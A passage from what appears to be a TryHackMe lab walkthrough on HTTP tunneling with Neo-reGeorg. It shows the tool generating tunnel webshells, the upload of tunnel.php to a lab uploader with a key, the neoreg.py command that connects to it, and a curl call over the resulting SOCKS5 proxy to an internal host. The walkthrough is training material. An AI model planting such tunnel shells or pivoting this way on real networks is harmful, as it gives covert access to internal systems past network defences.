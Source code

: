 ```markup
           $$                 '$$$


    [ Github ] https://github.com/L-codes/neoreg

    [+] Mkdir a directory: neoreg_servers
    [+] Create neoreg server files:
       => neoreg_servers/tunnel.aspx
       => neoreg_servers/tunnel.ashx
       => neoreg_servers/tunnel.jsp
       => neoreg_servers/tunnel_compatibility.jsp
       => neoreg_servers/tunnel.jspx
       => neoreg_servers/tunnel_compatibility.jspx
       => neoreg_servers/tunnel.php
```

The previous command generates encrypted Tunneling clients with thm key in the neoreg\_servers/ directory. Note that there are various extensions available, including PHP, ASPX, JSP, etc. In our scenario, we will be uploading the tunnel.php file via the uploader machine. To access the uploader machine, you can visit the following URL: http://10.10.39.16/uploader or https://10-10-39-16.p.thmlabs.com/uploader without the need for a VPN.

![The Victim's uploader](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/2445ab5b8bc971b51f8ebe3ffbd0c07d.png)

To upload the PHP file, use admin as the key to let you upload any files into the uploader.thm.com. Once we have uploaded the file, we can access it on the following URL: http://10.10.39.16/uploader/files/tunnel.php.

Creating an HTTPTunnel

```markup
root@AttackBox:/opt/Neo-reGeorg# python3 neoreg.py -k thm -u http://10.10.39.16/uploader/files/tunnel.php
```

We need to use the neoreg.py to connect to the client and provide the key to decrypt the tunneling client. We also need to provide a URL to the PHP file that we uploaded on the uploader machine.

Once it is connected to the tunneling client, we are ready to use the tunnel connection as a proxy binds on our local machine, 127.0.0.1, on port 1080.

For example, if we want to access the app.thm.com, which has an internal IP address 172.20.0.121 on port 80, we can use the curl command with --socks5 argument. We can also use other proxy applications, such as ProxyChains, FoxyProxy, etc., to communicate with the internal network.&#x20;

Access the app.thm.com machine via theHTTPTunneling

```markup
root@AttackBox:~$ curl --socks5 127.0.0.1:1080 http://172.20.0.121:80
Welcome to APP Server!
```

The following diagram shows the traffic flow as it goes through the uploader machine and then communicates with the internal network devices, which in this case, is the App machine. Note that if we check the network traffic from the App machine, we see that the source IP address of incoming traffic comes from the uploader machine.
